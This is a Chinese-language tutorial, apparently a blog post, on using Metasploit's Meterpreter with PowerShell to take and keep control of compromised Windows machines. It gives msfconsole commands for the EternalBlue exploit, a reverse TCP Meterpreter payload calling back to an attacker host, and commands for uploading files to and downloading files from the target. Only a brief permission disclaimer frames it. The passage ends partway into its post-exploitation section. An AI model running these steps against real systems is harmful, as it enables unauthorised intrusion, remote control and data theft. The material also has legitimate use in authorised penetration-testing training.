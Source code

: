 Meterpreter 是 Metasploit 框架中的一个强大有效载荷，结合 PowerShell，提供了一个强有力的后期利用（C2）组合。在这个详细的探讨中，我们将探讨如何将 Meterpreter 与 PowerShell 结合使用，以建立并维持对被攻陷系统的控制。

## Meterpreter 简介

Meterpreter 是 Metasploit 框架中的一个后期利用有效载荷。它旨在提供强大的功能，以与被破坏的系统进行交互和控制。Meterpreter 的一个显著优势是其多功能性和可以在内存中运行，使得传统安全措施难以检测到它。

## 设置攻击环境

在我们深入研究示例之前，让我们使用 Metasploit 设置一个基础环境，以了解基本概念：

```
 # Open a terminal and launch Metasploit
msfconsole
```

## 利用漏洞

假设我们已经在目标系统中发现了一个漏洞用于演示目的。我们将使用 EternalBlue 漏洞攻击来破坏一台 Windows 机器（请注意，这是一个假设场景，应该仅在您获得许可的受控环境中执行）：

```
 # Within Metasploit console
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_IP>
exploit
```

这是利用 EternalBlue 漏洞对目标系统进行未经授权的访问。

## 利用 Meterpreter

一旦我们成功利用目标系统的漏洞，就可以利用 Meterpreter 建立连接并获得控制：

```
 # Within Metasploit console
use payload/windows/meterpreter/reverse_tcp
set LHOST <attacker_IP>
exploit
```

这将创建一个反向 TCP 连接到攻击者的机器，在被破坏的系统上提供一个 Meterpreter shell。

## 使用 Meterpreter 进行后期利用

Meterpreter 提供了广泛的功能，用于后期利用活动。让我们探索一些常见任务。

### 文件系统操作

接下来，我们将使用 Meterpreter 列出一系列文件，将文件从服务器上传到目标，并将文件从目标下载到服务器：

```
 # List files in the current directory
ls
# Upload a file to the target system
upload /local/path/to/file.txt C:\\target\\path\\
# Download a file from the target system
download C:\\target\\path\\file.txt /local/save/
```

